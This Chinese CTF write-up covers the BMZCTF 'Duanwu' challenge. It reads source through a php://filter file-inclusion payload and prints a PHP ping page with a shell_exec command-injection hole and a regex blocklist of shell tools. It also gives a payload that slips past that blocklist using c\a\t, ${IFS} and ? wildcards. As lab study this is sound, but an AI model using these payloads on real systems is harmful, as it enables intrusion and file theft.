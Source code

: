 ```yaml
---
layout: mypost
title: BMZCTF之端午就该吃粽子
categories: [CTF]
---
```


http://www.bmzclub.cn/

# 题解

提示访问 login.php，flag 在根目录

http://www.bmzclub.cn:22037/login.php?zhongzi=show.php

发现有文件包含

用 php 伪协议读取源码

http://www.bmzclub.cn:22037/login.php?zhongzi=php://filter/read=convert.base64-encode/resource=index.php

base64 解码

```php
<?php
error_reporting(0);
if (isset($_GET['url'])) {
    $ip = $_GET['url'];
    if (preg_match("/(;|'| |>|]|&| |python|sh|nc|tac|rev|more|tailf|index|php|head|nl|sort|less|cat|ruby|perl|bash|rm|cp|mv|\*)/i", $ip)) {
        die("<script language='javascript' type='text/javascript'> alert('no no no!') window.location.href='index.php';</script>");
    } else if (preg_match("/.*f.*l.*a.*g.*/", $ip)) {
        die("<script language='javascript' type='text/javascript'> alert('no flag!') window.location.href='index.php';</script>");
    }
    $a = shell_exec("ping -c 4 " . $ip);
    echo $a;
} ?>
```

构建http://www.bmzclub.cn:22037/index.php?url=1%7Cc%5Ca%5Ct$%7BIFS%7D/????

任意字符＋|

cat 进黑名单，用c\a\t绕过

空格进黑名单，用${IFS}或者%09绕过

✳ 和 flag 都被过滤，用和 ✳ 差不多的 ?绕过，即 ????

# 总结

# php://fliter 伪协议

官方文档：

> php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。
>
> https://www.php.net/manual/zh/wrappers.php.php

## 协议参数

| **名称**                  | **描述**                                                     |
| ------------------------- | ------------------------------------------------------------ |
| resource=<要过滤的数据流> | 这个参数是必须的。它指定了你要筛选过滤的数据流。             |
| read=<读链的筛选列表>     | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`|`）分隔。 |
| write=<写链的筛选列表>    | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`|`）分隔。 |
| <；两个链的筛选列表>      | 任何没有以 `read=` 或 `write=` 作前缀 的筛选器列表会视情况应用于读或写链。 |

```php
php://filter/read=convert.base64-encode/resource=index.php
```

题目中的用法在于通过 filter 协议读取源码，将 index.php 通过 base64 编码后输出。如果不进行编码，文件包含后就不会有输出结果，而是当做 php 文件执行。其中 convert.base64-encode 就是一种过滤器

